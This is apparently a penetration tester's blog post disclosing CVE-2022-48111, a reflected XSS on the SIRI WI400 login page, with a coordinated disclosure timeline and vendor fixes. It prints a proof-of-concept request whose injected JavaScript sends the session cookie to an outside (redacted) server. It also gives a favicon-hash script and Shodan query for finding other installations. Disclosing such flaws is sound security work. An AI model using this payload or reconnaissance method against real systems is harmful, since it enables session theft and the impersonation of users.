 ```yaml
---
title: CVE-2022-48111
layout: post
post-image: /assets/images/wi400/0.wi400_cover.jpg
description: This post makes public a vulnerability I happened to discover during one of my activities as a Penetration Tester.
tags:
  - how to
  - cybersecurity
  - vulnerability
  - CVE-2022-48111
  - XSS
  - cookie exfiltration
---
```


# SIRI WI400: XSS on Login Page – CVE-2022-48111

WI400 is a software developed by SIRI that acts as a web interface for the IBM Power Systems (AS/400). During a penetration test activity, a reflected cross-site scripting (XSS) vulnerability was found on the login page. This allowed to craft URLs with arbitrary JavaScript code injected that would execute once the link was visited.

![SIRI WI400 Login Page](/assets/images/wi400/1.wi400_login_page.png)

## Advisory – CVE-2022-48111

A cross-site scripting (XSS) vulnerability in the check_login function of S.I.R.I. s.r.l WI400 between v.8 and v.11 included allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the “f” parameter.

## Technical Details

During a black-box penetration test activity carried out on the WI400 v9.5 emerged the possibility to reflect some parameters in the server response. By further investigating the matter, it was found out that the login page was vulnerable to reflected cross-site scripting attacks. Once confirmed, it was possible to exfiltrate the session cookie. In a likely scenario an attacker could, for example, steal it by means such as a phishing attack and log into the system impersonating the victim.

As a proof of concept, rather than popping up an alert printing the cookie, the JavaScript payload was crafted as a XMLHttpRequest that would send the token to our server.

The following is a POC snippet of the request with the payload used to verify and confirm the above mentioned vulnerability.

```
GET /WI400/index.php?t=CHECK_LOGIN&f=";const+req+%3d+new+XMLHttpRequest()%3breq.open("GET",+"https%3a//[REDACTED]/"%2bdocument.cookie)%3breq.send();var+tail="y
HTTP/1.1
Host: [REDACTED]
Cookie: PHPSESSID=o7p2j3i1a14sb1fp8e1s1hhuv7
[…]
```

In the server response it can be seen that the payload is returned without proper sanitization so the JavaScript code executes correctly once the URL is visited.

```javascript
HTTP/1.1 200 200
[…]

<!DOCTYPE html>
[…]
    var FOCUSED_FIELD = "";
    var FOCUSED_TAB ="";
    var REFRESH_FOCUS = false;
    var __WI400_HMAC = "";
    var __WI400_SESSION = "";
    var CURRENT_ACTION = "CHECK_LOGIN";
    var CURRENT_FORM = "";const req = new XMLHttpRequest();req.open("GET", "https://[REDACTED]/"+document.cookie);req.send();var tail="y";
[…]
```

In fact, as one can see in the picture below, the code executes on the target and the user session cookie is successfully exfiltrated to the “attacker” server.
![Session cookie exfiltrated to attacker server](/assets/images/wi400/2.wi400_stolen_cookie-redacted.png)

In order to exploit the vulnerability **no authentication is necessary**.

To understand if other versions of the software were subsceptible to the same kind of vulnerability, I needed to find other installations of the same.
To do so, I used what is, in my optinion, a pretty nifty trick. I calculated tha favicon hash with this python script:

```python
import mmh3
import requests
import codecs

response = requests.get('https://[REDACTED]/favicon.ico')
favicon = codecs.encode(response.content,"base64")
hash = mmh3.hash(favicon)
print(hash)
```

and then we looked it up on Shodan with the following query:
`http.favicon.hash:[REDACTED]`

A pretty cool tool that does the same thing but I didn't know at the time is [Fav-up](https://github.com/pielco11/fav-up).

After comparing the codebase in the new-found installations with the one we I was testing, I was able to confirm that multiple versions of the software were vulnerable to the same XSS. The vendor was promptly notified of the findings.

## Recommendations

If your version of the WI400 software is included between 8 and 11 you can choose one of the following:

- Enable the “safe mode” that can be activated on request by SIRI since v.8
- Update the software to the latest release

## Resolutions from SIRI

> We recommend all our customers to activate the “safe mode”. In future releases the parameter will be enabled by default and cannot be disabled. \
> Contact the [help desk](mailto:info@siri-informatica.it) for further information.

## Disclosure Timeline

- 14/12/2022 – Initial contact with SIRI
- 16/12/2022 – SIRI acknowledges the problem and decides to work with Yarix for a coordinated disclosure
- 02/02/2023 – MITRE assigned CVE-2022-48111 to the vulnerability
- 02/03/2023 – Full disclosure

## Resources & References

- [https://www.wi400.com/](https://www.wi400.com/)
- [CVE-2022-48111](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-48111)
